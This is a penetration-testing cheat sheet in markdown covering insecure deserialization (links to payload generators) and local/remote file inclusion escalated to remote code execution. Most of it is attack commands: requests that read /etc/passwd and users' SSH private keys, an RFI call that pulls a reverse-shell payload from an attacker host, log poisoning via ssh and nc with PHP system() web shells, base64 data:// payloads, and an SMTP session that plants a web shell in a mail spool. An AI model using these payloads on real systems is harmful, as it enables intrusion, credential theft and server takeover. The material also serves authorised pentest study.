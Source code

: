 ### Insecure deserialization

* [jsonpickle](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)
* [python payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [All other langauges payload list](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

### File Inclusion to RCE
The log poisoning is not necessary targeting php, it is just a common example being used.
You may need to either upload the web shell that need to be included or inject with other languages.
```bash
#POC LFI, check /etc/passwd
http://IP/?FI=/etc/passwd
#or
http://IP/?FI=../../../../../../../../etc/passwd
#if there is any user has shell login
http://IP/?FI=/home/user/.ssh/id_rsa
# more advanced filter see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md
# RFI, rare since it is not enabled by default
# Setup a http server contains a reverse shell script
# send request then it will be invoked
http://IP/?FI=http://YOUR_IP/YOUR_PAYLOAD
# access log poisoning with ssh
ssh '<?php system($_GET['cmd']); ?>'@IP 
# access log poisoning with http
nc -nv IP HTTP_PORT
<?php system($_GET['cmd']); ?> #<- then click on return key twice and you should see a bad request respond
# SMTP injection
http://IP/FI?=/var/mail/TARGET_USER&cmd=id
# extension append filter
# data, can execute code directly
http://IP/FI?=data://text/plain,<?php phpinfo(); ?>
http://IP/FI?=data://text/plain,<?php shell_exec("PAYLOAD"); ?>
# data and base64 encode to code execution
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
http://IP/FI?=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
# base64, can check file source
http://IP/FI?=php://filter/convert.base64-encode/resource=FILE
```

#### SMTP code injection associate with LFI to RCE
```bash
#Connect to the smtp port with nc/telnet
EHLO who_you_are
VRFY TARGET_USER
mail from:you
rcpt to: TARGET_USER
data
Subject: WHATEVER
<?php echo system($_REQUEST['cmd']);?>
    #<- this extra newline is essential
.   #<- also this period is essential
```

